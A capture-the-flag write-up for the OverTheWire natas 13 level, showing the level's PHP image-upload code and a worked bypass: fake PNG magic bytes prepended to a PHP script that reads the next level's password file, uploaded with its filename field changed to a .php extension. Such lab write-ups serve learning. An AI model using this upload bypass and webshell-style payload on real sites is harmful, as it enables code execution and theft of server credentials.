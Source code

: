 ```yaml
---
title: natas 13 walkthrough
description: over the wire natas 13
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-13 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 13 walkthrough
    order: 30
---
```

## Description
>    Username: natas13
> 
> URL:      http://natas13.natas.labs.overthewire.org
### Source Code
```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```


---
## Progress
### Observation
Apparently, we should bypass `exif_imagetype`. 
### Trial
Changing the file extension did not work.
Try to use fake [[File signatures]].
```bash
printf "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a" > test.png
```
Successfully bypass the check.
### Payload
Directly append the php code to png file signature.
```bash
printf "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a" > test.png
cat pwn.php >> test.png
```
where `pwn.php`
```php
<?php 
$filepath = "/etc/natas_webpass/natas14";
$myfile = fopen($filepath, "r") or die("Unable to open file!");
echo fread($myfile,filesize($filepath));
fclose($myfile);
?>
```
Failed. Server side did not execute the code.
### Final
The payload is fine. However, the file extension should be changed to php to execute the code.
`<input type="hidden" name="filename" value="yi78i3gdm1.php">`
�PNG  ****** 

---
## Hint

---
## Solving
### Category
- [[File upload vulnerability]]
### Techniques
- [[File signatures]]
### Tools
- 